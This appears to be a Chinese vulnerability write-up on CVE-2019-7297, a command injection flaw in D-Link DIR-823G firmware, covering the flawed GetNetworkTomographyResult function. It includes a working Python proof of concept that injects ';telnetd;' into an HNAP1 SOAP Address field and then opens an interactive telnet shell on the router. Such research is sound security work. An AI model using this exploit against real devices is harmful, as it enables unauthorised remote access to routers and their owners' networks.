


# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2019-7297.html](http://book.iwonder.run/iot/D-Link/CVE-2019-7297.html)

## 一、漏洞简介

D-Link DIR 823G 1.02B03 及之前的版本中存在命令注入漏洞，攻击者可通过发送带有 shell 元字符的特制/HNAP1 请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult 函数中调用 system 函数，执行的内容中包括不受信任的用户输入 Address 字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03 及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的 GetNetworkTomographyResult 函数是在 goahead 二进制文件中实现的。在 function_list 中找到对应的函数地址。

GetNetworkTomographyResult 获取 address，number，size 参数，作为 ping 的参数。



```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在 system 之前并没有对这些外来参数进行检查，如果 address 为`;telnetd;`就能启动 Telnet 服务。可以看出这些参数都是通过 apmib_get 获取的，那么在之前一定有 apmib_set 进行设置，在 IDA 中查找关键字 0x1b72，0x1b73，0x1b73，定位到 apmib_set 的位置，结合 ghidra 的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。



### poc

```
import requests
from pwn import *

IP='192.168.0.1'

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/SetNetworkTomographySettings"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/">\
      <Address>;telnetd;</Address>\
      <Number>4<Number>\
          <Size>4</Size>\
     </SetNetworkTomographySettings></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetNetworkTomographyResult"'
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/">\
     </GetNetworkTomographyResult></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive() 
```

